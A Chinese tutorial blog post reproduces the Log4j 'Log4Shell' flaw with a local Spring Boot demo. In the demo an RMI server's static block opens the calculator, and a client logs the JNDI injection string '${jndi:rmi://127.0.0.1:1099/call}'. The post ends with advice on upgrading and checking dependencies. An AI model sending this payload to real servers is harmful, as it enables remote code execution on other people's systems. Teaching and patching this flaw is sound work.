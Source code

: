 ```yaml
---
title: log4j 漏洞攻击
draft: true
tags:
  - java
  - slf4j
  - logback
  - log4j
  - 日志
keywords:
  - java
  - slf4j
  - logback
  - log4j
  - 日志
  - sdvdxl
abbrlink: ae594641
date: 2021-12-19 13:10:21
updateDate: 2021-12-19 13:10:21
top_img:
cover:
---
```


事情起因于前几天（2021-12-10号）被全球广泛应用的组件Apache Log4j被曝出一个高危漏洞，攻击者仅需一段代码就可远程控制受害者服务器的事件。受影响的版本为 `Apache Log4j 2.x <= 2.14.1`。

其实这个本来算是log4j的一个特性，这个玩意在log4j里面叫做 [lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html)，简而言之可以使用一些特定的变量进行数据处理包括远程调用。但也因为这个特性，如果是用户填写的内容被解释了，那么可能会造成远程调用，造成执行任意代码的危害，接下来我们演示下怎么重现这个问题。

代码已经放在了[码云-sdvdxl](https://gitee.com/sdvdxl/log4j-attack-demo)上，该工程是 maven+springboot项目，建议使用 idea 或者 eclipse 打开操作和运行程序（本人使用 mac + idea 作为开发调试环境）

>**仅供技术学习交流使用，切勿用来进行非法行为！如果因此造成危害，后果自付！**

## log4j远程执行过程

方便起见，这里使用了 [spring-start](https://start.spring.io/) 创建了一个 springboot 项目，完整代码参见上面连接。

该演示工程主要分为两部分：

- RMI Server（参见源码 `top.todu.log4j.attack.demo.rmi.server` 包的 java 文件）
- RMI Client （参见 `top.todu.log4j.attack.demo.Application` 文件）

### RMI server

RMI server 非常简单（没有深入研究rmi，所以简单写了个demo），主要内容解释：

1. RmiServerDemo 作为主程序，注册一个服务名称为 `call` 可以供 client 调用
1. 绑定端口 1099

### TestRunCommand

这个类起作用的就是静态代码块，被远程调用的时候，该静态代码库就会被执行

```java
static {
    try {
      // 要执行的命令，这里测试是在我自己的电脑上打开计算器程序
      Runtime.getRuntime().exec("open -a Calculator");
    } catch (IOException e) {
      e.printStackTrace();
    }
    System.out.println("rmi");
  }
```

这个代码远程执行的命令是：`open -a Calculator` 打开计算器（mac 系统上的命令），如果你是运行在windows上，可以将它改为其他命令，比如 `calc`。

运行 `RmiServerDemo` 启动 rmi server。

### RMI client

客户端代码非常简单，就是一个普通的带有 main 方法的类，加点打印日志的代码：

```java
package top.todu.log4j.attack.demo;

import java.util.concurrent.TimeUnit;
import org.apache.logging.log4j.Logger;
import org.slf4j.LoggerFactory;

// 模拟线上服务
// @Slf4j
public class Application {

  public static void main(String[] args) throws InterruptedException {
    Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
    String username = "${jndi:rmi://127.0.0.1:1099/call}";
    logger.info("用户登录，username: {}", username);
    logger.info("测试日志输出");
    System.out.println(LoggerFactory.getILoggerFactory().getClass().getName());
    TimeUnit.SECONDS.sleep(5);
  }
}

```

核心代码只有：

```java
Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
String username = "${jndi:rmi://127.0.0.1:1099/call}";
logger.info("用户登录，username: {}", username);
```

1. get 一个logger
2. 模拟用户（黑客）输入内容
3. 打印日志

启动main方法，稍等片刻，即可看到打开了本机的计算器；同时 client 打印了日志：

```txt
rmi
TestRunCommand{测试用toString}
log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 用户登录，username: top.todu.log4j.attack.demo.rmi.server.ReferenceWraper@3e08ff24
[]wExlog4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 测试日志输出
[]wExorg.apache.logging.slf4j.Log4jLoggerFactory
```

但是，server端只打印了 **rmi server started** 信息。

因为server和client都是运行在本机上，所以效果不明显；如果 server 部署到另一台机器， client 还在我的电脑上，那么我重新运行 client的话，还是会在我本就上打开我的计算器。

很奇怪是不是？这个跟rmi的原理有关： rmi 远程调用的时候，server将相关代码序列化传输到client上，client再在本机上运行这段代码。所以，如果别有用心的人写了个 rmi server，上面写了个比较厉害的代码（比如下载木马病毒，窃取数据库，甚至删库），那么可想而知，你的服务器是不是就炸了。

这就是这次 slf4j 的漏洞的危害，级别被定义为了 `Critical` 非常严重！

## 漏洞修复方法

如果用了log4j，还是老老实实的升级版本吧，最保险。截止目前，官方已经升级了版本到 `2.16.0`， 从 `2.15.0` 开始，默认禁用此特性，后续也可能删除。

## 问题？

我的服务使用的是 springboot，里面依赖了包含有log4j的包，会受到危害吗？

这里先简单说一下：

首先查看项目依赖：

maven 命令：

`mvn dependency:tree >tree` 查看 tree 文件内容，看看是否依赖 log4j

1. 如果项目明确指定使用的是 log4j（这里说的是log4j 2.xx）， 并且版本在 2.14.1 及其以下，毋庸置疑，受到影响
1. springboot默认依赖的是logging框架，使用的是 logback，如果整个项目未包含任何log4j的内容，那么显然不在影响范围内
1. 如果实际指定日志框架为 logback，只含了 log4j-core ，理论上也不会收到影响

所以，重点是要看实际日志输出的时候是用的哪套框架。
